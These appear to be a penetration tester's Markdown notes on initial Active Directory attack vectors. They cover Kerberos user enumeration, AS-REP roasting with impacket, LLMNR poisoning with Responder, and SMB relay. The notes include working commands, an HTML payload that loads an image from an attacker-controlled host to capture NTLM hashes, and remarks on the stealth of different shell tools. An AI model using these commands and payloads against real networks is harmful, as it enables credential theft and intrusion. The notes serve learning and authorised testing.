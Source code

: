# Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**

---
# Services enumeration
## Kerberos
- [**#Kerbrute**](https://github.com/ropnop/kerbrute)
```txt
go get github.com/ropnop/kerbrute
```
# Attacks
## Kerberos Attacks — AS-REP Roasting
**AS-REP roasting** is a Kerberos attack that allows for retrieving password hashes from users without the pre-authentication step. The pre-authentication step is the initial step in the Kerberos authentication, where a user sends an encrypted request to the KDC to authenticate to a service.
- [**Further explaination**](https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5)

**1- Get a valid user/s by social engineering or using #kerbrute**
Make a *custom* wordlist of users by using [**username-anarchy**](https://github.com/urbanadventurer/username-anarchy) or any tool you like.

**2- Now we want to specify the user accounts that have the pre-authentication option disabled**
We can use *impacket-GetNPUsers (it attempts to list and get TGTs for users with the property _“Do not require Kerberos pre-authentication”_ set).
```bash
impacket-GetNPUsers <DomainName> -usersfile <FILE> -dc-ip "IP> -request -format john
```
*NOTE: `Format john` to get the hashes in a format `john` can work with to crack it.*

## LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---

## SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```

## IPv6 DNS Takeover
Useful and important
- [Delegation attack](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Attack](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)